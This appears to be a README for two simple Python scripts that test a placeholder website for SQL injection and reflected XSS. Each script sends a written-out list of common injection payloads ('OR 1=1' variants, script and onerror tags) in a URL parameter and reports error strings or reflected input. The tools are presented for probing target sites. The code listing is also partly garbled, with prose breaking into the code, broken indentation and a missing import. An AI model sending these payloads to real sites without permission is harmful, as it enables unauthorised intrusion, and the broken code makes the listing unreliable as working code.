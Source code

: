 ===========================================
<BR>
               SQL INJECTION
<BR>
===========================================
Define the URL of the target website:
<br>
url = "http://example.com/vulnerable_page.php"

Define a list of SQL injection payloads to test:
<br>
payloads = [
    "' OR '1'='1",
    "' OR '1'='1' -- ",
    "' OR '1'='1' /* ",
    "' OR 1=1-- ",
    "' OR 'a'='a",
    "' OR 'a'='a' -- ",
    "' OR 'a'='a' /* ",
    "1' OR '1'='1",
    "1' OR '1'='1' -- ",
    "1' OR '1'='1' /* "
]

Define a function to test for SQL injection:
<br>
def test_sql_injection(url, payloads):
    for payload in payloads:
        # Construct the full URL with the payload
        test_url = f"{url}?id={payload}"

        try:
            # Send the HTTP request
            response = requests.get(test_url)

            # Check if the payload is reflected in the response
            if "SQL" in response.text or "syntax" in response.text or "error" in response.text:
                print(f"Potential SQL injection vulnerability detected with payload: {payload}")
            else:
                print(f"Payload {payload} did not cause an SQL error.")
        except requests.exceptions.RequestException as e:
            print(f"An error occurred: {e}")

Call the function to run the test:
<br>
test_sql_injection(url, payloads)

===========================================
  <br>
                   XSS
  <br>
===========================================
First, make sure you have the requests library installed. If not, you can install it using pip:
<br>
pip install requests

Explanation:
URL Definition: The URL of the target website is defined as url.
<br>
url = "http://example.com/vulnerable_page.php"

Payloads List: A list of common XSS payloads is defined. These payloads will be tested to see if they are reflected in the response.
<br>
payloads = [
    "<script>alert('XSS')</script>",
    "<img src=x onerror=alert('XSS')>",
    "<svg/onload=alert('XSS')>",
    "';alert('XSS');//",
    "\";alert('XSS');//",
    "<body onload=alert('XSS')>",
    "<iframe src=javascript:alert('XSS')>",
    "<input type='text' onfocus=alert('XSS') autofocus>",
    "<a href='javascript:alert(\"XSS\")'>Click me</a>",
    "<div onmouseover=alert('XSS')>Hover over me</div>"
]

Function Definition (test_xss): This function takes the URL and payloads as parameters and iterates through each payload:
<br>
Construct URL: For each payload, the script constructs a test URL by appending the payload to the query parameter input.
<br>
def test_xss(url, payloads):
    for payload in payloads:
        # Construct the full URL with the payload
        test_url = f"{url}?input={payload}"

        try:

Send Request: It sends an HTTP GET request to the constructed URL.
<br>
response = requests.get(test_url)

Check Response: It checks if the payload is reflected in the response text. If it is, it prints a message indicating a potential XSS vulnerability. If not, it prints a message that the payload did not 
trigger an XSS vulnerability.
<br>
if payload in response.text:
                print(f"Potential XSS vulnerability detected with payload: {payload}")
            else:
                print(f"Payload {payload} did not trigger an XSS vulnerability.")
        except requests.exceptions.RequestException as e:
            print(f"An error occurred: {e}")

Error Handling: The script includes error handling to catch and print any exceptions that occur during the HTTP request.
<br>
test_xss(url, payloads)

===============================================
<br>
SQLI.py & XSS.py the script for testing vulnerability on the website with python language.

You can run this script for testing the website with following step:

pip install requirements
<br>
chmod +x filename.py
<br>
python3 filename.py

put target url for checking vulnerable of SQL Injection



Happy Hacking..!!
